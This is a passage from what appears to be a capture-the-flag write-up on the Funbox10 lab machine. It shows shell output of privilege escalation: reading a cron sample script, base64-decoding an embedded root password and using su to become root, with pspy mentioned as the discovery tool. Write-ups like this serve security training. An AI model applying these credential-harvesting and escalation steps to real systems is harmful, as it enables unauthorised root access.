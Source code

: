 Which is calling a shell script we can read:

{% highlight shell %}
www-data@funbox10:/$ cat /usr/share/doc/examples/cron.sh
cat /usr/share/doc/examples/cron.sh
# cron.sh sample file
# 0 20 * * * /bin/goahead --parameter: LXUgcm9vdCAtcCByZnZiZ3QhIQ==
{% endhighlight %}

And that file contains the root password base64 encoded:

{% highlight shell %}
www-data@funbox10:/$ echo LXUgcm9vdCAtcCByZnZiZ3QhIQ== | base64 -d
echo LXUgcm9vdCAtcCByZnZiZ3QhIQ== | base64 -d
-u root -p rfvbgt!!www-data@funbox10:/$ su root
su root
Password: rfvbgt!!

root@funbox10:/# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
funbox10
Sun Aug  1 12:14:04 CEST 2021
{% endhighlight %}

How did we know this? Pspy can find it, although it seems a bit flaky. Anyhoo, we move on....
